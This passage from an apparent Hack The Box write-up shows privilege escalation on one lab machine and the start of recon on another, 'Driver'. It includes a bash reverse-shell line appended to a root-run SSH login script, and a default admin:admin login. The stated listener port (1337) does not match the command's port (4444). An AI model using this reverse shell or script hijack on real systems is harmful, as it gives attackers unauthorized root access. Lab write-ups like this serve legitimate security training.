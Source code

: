 And then, in order to trigger the script, we log in in another session and see the output of pspy:

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221125174552.png' | relative_url }}" text-align="center"/>
</div>

It seems that, every time somebody logs in with SSH then root executes the script. This combined with the fact that we have writeable permissions of the file gives a way to make us root.

We simply write the following line on the script:

```bash
echo "bash -i >& /dev/tcp/10.10.16.9/4444 0>&1" >> /usr/local/sbin/ssh-alert.sh
```

Then, we setup a netcat listener on port 1337 and login again:

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221125175321.png' | relative_url }}" text-align="center"/>
</div>

<br />

### 6. Driver - Windows (Responder, SCF file injection, evil-winrm, meterpreter session, isolated services session, local_exploit_suggester, ricoh_driver_privesc)

In this case, we have a server that is hosting a web page, a SMB server and a windows management server:

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221123123034.png' | relative_url }}" text-align="center"/>
</div>

When we attemp to explore the web page we are asked about admin's credentials but 'admin:admin' seems to be successful:

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221123123149.png' | relative_url }}" text-align="center"/>
</div>

First of all, we see that exists an email which is bond to a domain so we add the following line to /etc/hosts:

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221123123537.png' | relative_url }}" text-align="center"/>
</div>

The we explore the server. First, wappalyzer tell us that the web-server is PHP-based and the OS Server beyond is Windows:

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221123123843.png' | relative_url }}" text-align="center"/>
</div>
